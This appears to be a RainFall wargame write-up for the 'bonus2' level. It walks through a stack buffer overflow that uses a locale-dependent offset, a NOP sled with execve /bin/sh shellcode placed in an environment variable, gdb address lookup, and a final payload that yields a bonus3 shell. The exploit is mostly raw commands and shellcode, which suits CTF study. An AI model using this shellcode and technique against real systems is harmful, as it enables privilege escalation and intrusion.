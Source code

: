 
```bash
bonus2@RainFall:~$ export LANG=fi
```

```bash
./bonus2 `(python -c 'print ("A" * 45)')` `(python -c 'print ("B" * 32)')`
```

offset avec env variable `LANG` set is 18


Put our shellcode in the env
```bash
export EXPLOIT=$(python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```

```bash
(gdb) x/200s environ
0xbffff8cf:	 "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v\315\200"
```

```bash
Lets look at the address

```bash
(gdb) x/50x 0xbffff8cf
0xbffff8cf:	0x45	0x58	0x50	0x4c	0x4f	0x49	0x54	0x3d
0xbffff8d7:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8df:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8e7:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8ef:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8f7:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8ff:	0x90	0x90


```

The start of our shellcode is `\x90\x90\90`  
Here we can see those bytes at `0xbffff8d7` == `\xd7\xf8\xff\xbf`
Why ? Because we need to skip 8 chars ("EXPLOIT="), so we skip the first 8 bytes

```bash
PAYLOAD
argv[1] = `(python -c 'print ("A" * 45)')`
argv[2] = `(python -c 'print ("B" * 18 + Address jump env )')`

```

The offset in memory in gdb may be a bit different, that is why we put a lot of NOP instruction (`\x90`)

`0xbffff8d7` + 16 (hexa) = `bffff8ed` = `\xed\xf8\xff\xbf`

Lets jump further to jump into the `\x90` : `\xed\xf8\xff\xbf`


```bash
PAYLOAD
./bonus2 `(python -c 'print ("A" * 45)')` `(python -c 'print ("B" * 18 + "\xed\xf8\xff\xbf" )')`
```

```bash
bonus2@RainFall:~$ ./bonus2 `(python -c 'print ("A" * 45)')` `(python -c 'print ("B" * 18 + "\xed\xf8\xff\xbf" )')`
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
```
